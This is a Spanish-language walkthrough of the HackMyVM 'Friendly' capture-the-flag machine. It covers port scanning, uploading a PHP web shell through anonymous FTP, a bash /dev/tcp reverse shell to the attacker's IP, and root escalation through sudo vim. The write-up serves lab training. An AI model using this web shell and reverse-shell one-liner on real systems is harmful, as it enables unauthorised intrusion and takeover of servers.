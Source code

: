 ```yaml
---
title: Friendly - HackMyVM
categories: [ Linux ]
tags: [ HackMyVM ]
---
```


<img src="/assets/img/HMVM/Friendly/Friendly.jpg">

Holaaa! Hoy completaremos la máquina [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) de la plataforma [HackMyVM](https://hackmyvm.eu), el autor de la máquina es nuestro gran amigo [RiJaba1](https://www.youtube.com/@RiJaba1)! En esta máquina tocaremos los siguientes puntos:

- **Abusing FTP Anonymous user in order to upload files to the web**
- **Abusing sudoers privilege [Privilege Escalation]**

Primero que todo, y como en todas las máquinas que nos descargamos en local, tendremos que saber su IP, así que usaremos la herramienta `arp-scan` para escanear toda nuestra red local

```shell
❯ arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ed:e8:42, IPv4: 192.168.1.84
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1	ac:b6:87:16:07:b9 (62:b6:87:16:07:b8)	Arcadyan Corporation
192.168.1.16	a8:93:4a:00:55:96	CHONGQING FUGUI ELECTRONICS CO.,LTD.
192.168.1.127	00:0c:29:32:5c:2f	VMware, Inc.
192.168.1.72	b2:be:76:79:1a:2c (62:b6:87:16:07:b8)	(Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.989 seconds (128.71 hosts/sec). 4 responded
```

Basandonos en el OUI (Organizationally Unique Identifier), que son las primeras 3 partes de la dirección MAC, nos percatamos que la IP 192.168.1.127 le corresponde a VMware Inc., así que esa es la IPv4 de la máquina, procederemos a escanear todo el rango de puertos con `nmap`.

```shell
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.127 -oG allPorts
Nmap scan report for 192.168.1.127
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Ahora que tenemos la captura en formato grepeable de `nmap`, así que usaremos el script en bash `extractPorts` para extraer información importante

```shell
❯ which extractPorts
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}

❯ extractPorts allPorts
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 192.168.1.127
   5   │     [*] Open ports: 21,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora que tenemos los puertos copiados a la clipboard, procederemos con un escaneo más exhaustivo únicamente sobre estos puertos.

```shell
❯ nmap -p21,80 -sCV 192.168.1.127 -oN targeted
Nmap scan report for friendly.home (192.168.1.127)

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
```

Primero que todo, y como el mismo reporte nos muestra, el usuario `anonymous` está habilitado en el servicio FTP, así que nos conectaremos a él.

```shell
❯ ftp 192.168.1.127
Connected to 192.168.1.127.
220 ProFTPD Server (friendly) [::ffff:192.168.1.127]
Name (192.168.1.127:l4nder): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
229 Entering Extended Passive Mode (|||45683|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
ftp> 
```

Nos percatamos que hay un archivo index.html, parece ser que el servicio FTP está conectado con el servicio web, así que intentaremos subir algún archivo malicioso, intentaremos subir un archivo `cmd.php`, con el siguiente contenido:

```php
<?php
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Subiremos el archivo al servicio FTP, e iremos al servicio web, a ver si está el archivo cmd.php...

```shell
ftp> put cmd.php
local: cmd.php remote: cmd.php
229 Entering Extended Passive Mode (|||50713|)
150 Opening BINARY mode data connection for cmd.php
100% |*******************************************************************************************************************************************|    64        1.48 MiB/s    00:00 ETA
226 Transfer complete
64 bytes sent in 00:00 (71.02 KiB/s)
ftp> 
```

![](/assets/img/HMVM/Friendly/backdoor.png)

El archivo existe en el servicio web, ahora, para ver si tenemos ejecución de comandos, le concatenaremos `?cmd=whoami` al la url, quedando algo así

```html
http://192.168.1.127/cmd.php?cmd=whoami
```

![](/assets/img/HMVM/Friendly/whoami.png)

Tenemos ejecución de comandos, así que ahora nos enviaremos una reverse shell para estar más cómodo, la URL quedaría algo así

```html
http://192.168.1.127/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.84/443 0>%261"
```

```shell
❯ nc -lnvp 443
listening on [any] 443 ...
www-data@friendly:/var/www/html$ whoami
whoami
www-data
www-data@friendly:/var/www/html$ hostname
hostname
friendly
www-data@friendly:/var/www/html$ hostname -I
hostname -I
192.168.1.127 
www-data@friendly:/var/www/html$ 
```

Ahora que tenemos una shell, nos iremos al directorio `/home` para ver que usuario existen en el sistema.

```shell
www-data@friendly:/var/www/html$ cd /home/
www-data@friendly:/home$ ls
RiJaba1
www-data@friendly:/home$ 
```

Vemos que existe el usuario `RiJaba`, a ver que tiene en su directorio...

```shell
www-data@friendly:/home$ cd RiJaba1/
www-data@friendly:/home/RiJaba1$ ls 
CTF  Private  YouTube  user.txt
www-data@friendly:/home/RiJaba1$ 
```

El usuario RiJaba1 no tiene nada interesante, además de la flag, miremos permisos a nivel de sudoers.

```shell
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
www-data@friendly:/home/RiJaba1$ 

```

Nos percatamos que el usuario `www-data` puede ejecutar como el usuario `root` el comando `vim`, nos vamos a [GTFObins](https://gtfobins.github.io) y buscaremos el binario `vim`, se nos proporciona el siguiente comando

```shell
sudo vim -c ':!/bin/sh'
```

Lo ejecutamos, y conseguimos una shell como el usuario `root`! Hemos completado la máquina

```shell
www-data@friendly:/home/RiJaba1$ sudo vim -c ':!/bin/sh'

# whoami
root
# cd
# 
```

¡Muy buena máquina RiJaba! ¡Sigue así!